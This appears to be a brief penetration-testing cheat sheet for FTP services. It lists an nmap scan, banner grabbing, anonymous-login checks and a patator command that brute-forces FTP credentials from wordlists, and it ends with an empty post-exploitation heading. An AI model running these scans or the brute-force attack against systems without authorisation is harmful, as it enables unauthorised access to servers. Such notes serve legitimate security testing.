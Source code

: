 # FTP - Methodology

### RECON

###### Scan Nmap
`nmap -A -p <PORT> <IP>`

###### Banner grabing
`ftp <IP>`

###### Anonymous logging
The server may allow anonymous connections with the *anonymous* or *ftp*
accounts.
No password is required with those accounts.

### EXPLOITATION

###### Bruteforce

```bash
patator ftp_login host=<IP> user=FILE0 password=FILE1 0=<wordlist_user> 1=<wordlist_password> -x ignore:mesg='Login incorrect.' -x ignore:mesg='User cannot log in.' -x ignore,reset,retry:code=500
```

### POST EXPLOITATION

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
